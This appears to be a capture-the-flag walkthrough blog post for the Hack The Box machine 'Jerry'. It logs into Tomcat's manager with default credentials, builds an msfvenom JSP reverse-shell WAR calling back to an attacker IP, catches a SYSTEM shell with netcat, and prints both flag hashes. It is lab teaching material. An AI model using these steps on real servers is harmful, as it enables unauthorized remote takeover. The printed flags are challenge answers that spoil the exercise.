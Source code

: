 ```yaml
---
layout: post
title:  "HTB Jerry"
author: Luc Kolen
---
```

# 10.10.10.95 - Jerry

- [10.10.10.95 - Jerry](#10101095---jerry)
  - [Open ports](#open-ports)
  - [Tomcat](#tomcat)

## Open ports

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.95
```

![NMAP results](/assets/images/HTB-Jerry-images/1.a%20NMAP%20results.png)

|Port|Service|
|---|---|
|8080/tcp|Apache Tomcat/Coyote JSP engine 1.1|

## Tomcat

The only available port is `8080` with Apache Tomcat running. Browsing to `http://10.10.10.95:8080/` only shows the default page so it hasn't been setup. A service that hasn't been setup has a high chance of using default credentials. Browsing to the admin panel at `http://10.10.10.95:8080/manager/html` shows us a 401 error message, but also the explanation on how to setup Tomcat and the default credentials `username:tomcat` and `password:s3cret`.

![Tomcat 401 page showing default credentials](/assets/images/HTB-Jerry-images/1.b%20Tomcat%20401%20page%20showing%20default%20credentials.png)

Refreshing the page and entering these credentials will show us the `Tomcat Web Application Manager`. This page allows us to deploy a WAR file on the server. We can use MSFVenom to create our payload as a WAR file.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry/payload$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.16 LPORT=443 -f war > shell.war
```

![Upload created WAR file](/assets/images/HTB-Jerry-images/1.c%20Upload%20created%20WAR%20file.png)

Opening `http://10.10.10.95:8080/shell/` after uploading our WAR file will execute the payload and open a connection to the Netcat listener. Tomcat was running as system so there is no need for privilege escalation.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Jerry$ sudo nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.95.
Ncat: Connection from 10.10.10.95:49193.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
nt authority\system
C:\apache-tomcat-7.0.88>cd ../Users/Administrator/Desktop/flags
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
